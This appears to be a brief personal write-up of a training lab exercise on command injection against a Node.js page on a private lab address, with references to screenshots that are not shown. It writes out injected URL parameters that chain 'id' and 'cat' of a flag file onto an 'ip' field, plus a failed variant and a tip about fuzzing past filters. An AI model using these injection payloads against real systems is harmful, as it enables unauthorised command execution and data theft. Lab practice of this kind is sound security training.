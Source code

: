 ![[Pasted image 20250121210757.png]]
starting page `http://192.168.197.101/nodejs/index.js?ip=127.0.0.1`
![[Pasted image 20250121211038.png]]
able to show `root` with `http://192.168.197.101/nodejs/index.js?ip=127.0.0.1|id`
![[Pasted image 20250121211345.png]]
now able to show flag with `http://192.168.197.101/nodejs/index.js?ip=127.0.0.1|cat%20/var/tmp/exercise_chaining_flag.txt`
![[Pasted image 20250121211451.png]]
another method that was tried by the instructor but didnt work
```
$var=$(cat%20/var/tmp/exercise_chaining_flag.txt;print%20var
```
***Depending on the system filtering could be in place or just how the system executes, so fuzzing may be required***